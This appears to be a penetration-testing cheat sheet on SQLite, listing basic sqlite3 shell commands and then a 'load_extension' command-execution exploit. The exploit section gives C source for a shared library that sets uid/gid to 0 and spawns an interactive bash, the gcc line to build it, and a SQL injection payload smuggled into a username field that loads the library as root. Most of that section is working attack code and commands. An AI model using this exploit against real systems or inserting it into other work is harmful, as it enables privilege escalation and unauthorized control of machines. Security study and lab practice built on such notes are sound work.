 
# # Basic Information
SQLite is a lightweight, serverless, embedded relational database management system (RDBMS). It's a library that is embedded directly into applications, rather than being a separate server process.

## Useful Commands

```bash
# Open DB file
.open <your_file.db>

# List databases
.databases

# List tables
.tables

# Structure of table
.schema <table>
```

  

# Command Execution

## load_extension exploit

**Scenario**: Suppose we're on Linux and there's a bash script which asks for a username that will be used to activate the user.

The commands looks like this:
```bash
/usr/bin/sqlite3 db.sqlite3 -line \'UPDATE accounts_customuser SET is_active=1 WHERE username=\"%s\";\'
```

1. We need to create a C script.

```c
// test.c

#include <stdlib.h>
#include <unistd.h>

void _init() {
	setuid(0);
	setgid(0);
	system("/bin/bash -i");
}
```

2. Compile the C script into a shared library.

```bash
# Here we create a shared library
gcc -shared -fPIC -nostartfiles -o test.so test.c
```

This library will spawn an elevated shell.

For this to work we're going to create a payload (`"+load_extension('test.so')+"`) that we'll feed to the script. Once the script reaches the point where the username is used in the SQL statement, a shell with elevated privileges will be spawned.

# References
- [https://www.sqlite.org/docs.html](https://www.sqlite.org/docs.html)
- [https://github.com/OpenRefine/OpenRefine/security/advisories/GHSA-87cf-j763-vvh8](https://github.com/OpenRefine/OpenRefine/security/advisories/GHSA-87cf-j763-vvh8)